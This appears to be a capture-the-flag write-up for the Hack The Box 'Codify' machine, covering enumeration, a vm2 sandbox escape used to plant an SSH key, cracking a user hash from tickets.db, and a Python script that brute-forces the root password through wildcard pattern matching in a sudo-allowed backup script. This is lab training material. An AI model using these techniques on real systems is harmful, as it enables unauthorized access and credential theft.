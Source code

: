 # Codify - HTB

***

## Scanning and Enumeration

- Ran nmap scans against the target

    ![Nmap results](screenshots/2024-01-31-14-09-43.png)

***

## Research

- Did a bit of research on `vm2` and found this
  - https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244

***

## Initial Access

- Tried the technique in the exploit and it worked
- Did some digging around and figured out I could write my public key to the `/home/svc/.ssh/authorized_keys` file

    ![Public Key addition](screenshots/2024-01-31-14-42-29.png)

- This gave me initial access

    ![Initial access](screenshots/2024-01-31-14-43-31.png)

***

## Privilege Escalation

- Tried `sudo -l` and `find / -perm 4000 2>/dev/null` to find some escalation paths but no luck
- Transferred good old `linpeas.sh` to the target and tried that next
    - `linpeas.sh` didn't show any clear escalation paths

- Found a `tickets.db` so went a head and downloaded it

    ![tickets.db download](screenshots/2024-01-31-15-19-34.png)

- Opened it up with sqlitebrowser and found some hashes for `joshua` user

    ![DB hashes](screenshots/2024-01-31-15-20-39.png)

- Grabbed the hash and used john to attempt to crack it, this worked

    ![Hash cracking](screenshots/2024-01-31-15-30-11.png)

- Using the password, I was able to ssh as the `joshua` user

    ![SSH as joshua](screenshots/2024-01-31-15-32-52.png)

- Found the `user.txt` flag

    ![User flag](screenshots/2024-01-31-15-40-45.png)

- Ran `sudo -l` and found that `joshua` can run `/opt/scripts/mysql-backup.sh` as root

    ![sudo -l results](screenshots/2024-01-31-15-34-03.png)

- This is our escalation path, let's explore that script

    ![mysql-backup.sh script](screenshots/2024-01-31-15-42-53.png)

- After analyzing the `mysql-backup.sh` script more closely, I realized the `[[ $DB_PASS == $USER_PASS ]]` statement does pattern matching instead of direct string comparison.
- Since it's doing pattern matching, this can be essentially brute forced.

- I came up with this quick script to do this

```python
import string
import subprocess

# Function to handle password checking
def check_password(p):
    command = f"echo '{p}*' | sudo /opt/scripts/mysql-backup.sh"
    result = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
    return "Password confirmed!" in result.stdout

# Create a character set with all letters and digits
charset = string.ascii_letters + string.digits
password = ""
is_password_found = False

# Loops through the the charset 
while not is_password_found:
    for char in charset:
        if check_password(password + char):
            password += char
            print(password)
            break
    else:
        is_password_found = True
```

- Running the script gave us the root password, used it to login as root

    ![Root shell](screenshots/2024-01-31-17-06-33.png)

- Found the `root.txt` flag

    ![Root flag](screenshots/2024-01-31-17-07-13.png)
